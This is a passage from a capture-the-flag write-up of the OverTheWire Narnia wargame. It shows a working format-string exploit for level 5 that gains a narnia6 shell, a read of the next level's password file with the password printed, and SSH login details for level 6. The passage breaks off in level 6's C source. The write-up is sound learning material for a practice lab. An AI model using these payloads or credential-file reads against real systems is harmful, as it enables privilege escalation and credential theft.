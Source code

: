 In this case, the address is in the first position on the stack so, the exploit would look like this : 

```bash
narnia5@narnia:/narnia$ ./narnia5 $(python -c 'print "AAAA" + "%1$n"')
Segmentation fault
```

Obviously, it segfault as we try to write the value **4** at a random address. Note the `%1$n`, the **1** specify the position of our address on the stack. If it was on the 3rd postion we would have used `%3$n`.

However we don't want to write **4**, we want to write **500**. To do that we will use `%<size>$x`, it will serve as padding. Instead of writting our address followed by **496** chars, we'll use **%496$x**.

Let's try :

```bash
narnia5@narnia:/narnia$ ./narnia5 $(python -c 'print "\xc0\xd6\xff\xff" + "%496x%1$n"')
Change i's value from 1 -> 500. GOOD
$ whoami
narnia6
$ cat /etc/narnia_pass/narnia6
neezocaeng
```

Format strings are more complex than standard buffer overflow. If you are interested, you can read my [post](https://axcheron.github.io/exploit-101-format-strings/) about this kind of vulnerability.

## Narnia 06 Solution

**SSH :** *ssh narnia6@narnia.labs.overthewire.org -p 2226*<br/>
**Pass :** *neezocaeng*

First, let's try to execute the program...

```bash
$ ssh narnia6@narnia.labs.overthewire.org -p 2226

narnia6@narnia:~$ cd /narnia/
narnia6@narnia:/narnia$ ./narnia6
./narnia6 b1 b2
narnia6@narnia:/narnia$ ./narnia6 123 456
123
```

It seems that the program takes 2 arguments and print the first one. Let's check the source code to understand how it works.

### Source Code

Here is the source :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
	char b1[8], b2[8];
```